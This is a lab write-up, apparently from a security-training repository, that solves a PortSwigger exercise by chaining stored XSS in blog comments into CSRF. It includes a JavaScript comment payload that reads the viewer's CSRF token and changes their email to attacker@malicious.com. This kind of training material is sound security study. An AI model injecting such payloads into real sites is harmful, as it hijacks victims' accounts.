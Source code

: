 # Exploiting XSS to perform CSRF

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-perform-csrf), you'll learn: Exploiting XSS to perform CSRF! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

This lab contains a [stored XSS](https://portswigger.net/web-security/cross-site-scripting/stored) vulnerability in the blog comments function. To solve the lab, exploit the vulnerability to perform a [CSRF attack](https://portswigger.net/web-security/csrf) and change the email address of someone who views the blog post comments.

You can log in to your own account using the following credentials: `wiener:peter`

## Exploitation

**Home page:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-16/images/Pasted%20image%2020221231054735.png)

**Login as user `wiener`:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-16/images/Pasted%20image%2020221231054756.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-16/images/Pasted%20image%2020221231054806.png)

In here, we can update our email.

**Let's update it and intercept the request via Burp Suite:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-16/images/Pasted%20image%2020221231054925.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-16/images/Pasted%20image%2020221231054933.png)

When we click the `Update email` button, **it'll send a POST request to `/my-account/change-email`, with parameter `email` and `csrf`.**

Also, in the home page, we can view other posts:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-16/images/Pasted%20image%2020221231055219.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-16/images/Pasted%20image%2020221231055231.png)

And we can leave some comments.

**Let's try to inject some JavaScript code via XSS:**
```html
<script>
    window.onload = function (){
        alert(document.getElementsByName("csrf")[0].value)
    };
</script>
```

This will pop up an alert box with our CSRF token.

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-16/images/Pasted%20image%2020221231055715.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-16/images/Pasted%20image%2020221231055728.png)

We indeed can inject any JavaScript code, and **the CSRF token is the same as the update email one.**

Armed with above information, **we can inject some JavaScript codes that perform CSRF (Cross-Site Request Forgery), which will update victim's email upon visit.**

```html
<script>
    // Wait the window is fully loaded, otherwise the CSRF token will be empty
    window.onload = function (){
        // Fetch victim's CSRF token
        var csrfToken = document.getElementsByName("csrf")[0].value;
        var email = 'attacker@malicious.com';

        // Construct the require POST parameters
        var data = 'email=' + email + '&';
        data += 'csrf=' + csrfToken;

        // Change victim's email upon visit via CSRF attack
        fetch('https://0a92003a03004453c02cccab008d0098.web-security-academy.net/my-account/change-email',
            {
                method: 'POST',
                mode: 'no-cors',
                body: data
            }
        )
    };
</script>
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-16/images/Pasted%20image%2020221231060637.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-16/images/Pasted%20image%2020221231060643.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-16/images/Pasted%20image%2020221231060650.png)

We did it!

# What we've learned:

1. Exploiting XSS to perform CSRF
